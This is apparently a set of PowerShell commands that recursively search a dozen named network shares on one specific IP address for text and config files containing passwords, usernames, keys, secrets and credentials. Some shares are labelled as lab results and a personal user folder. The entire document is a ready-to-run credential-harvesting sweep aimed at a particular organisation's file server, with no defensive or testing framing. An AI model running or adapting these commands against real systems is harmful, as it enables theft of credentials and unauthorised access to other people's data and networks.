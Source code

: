 Get-ChildItem "\\199.203.129.16\Adama" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\Again-Imprivata" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\AGRIC" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\allusr" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\hilan" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\Lab Results" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\NATIV P" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\Oee_28" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\ruslan.alanazarov" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\vol" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\w_Analytical Lab" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
Get-ChildItem "\\199.203.129.16\yosi temp" -Recurse -Include *.txt,*.cfg | Select-String -Pattern "password|username|user|key|secret|credentials"
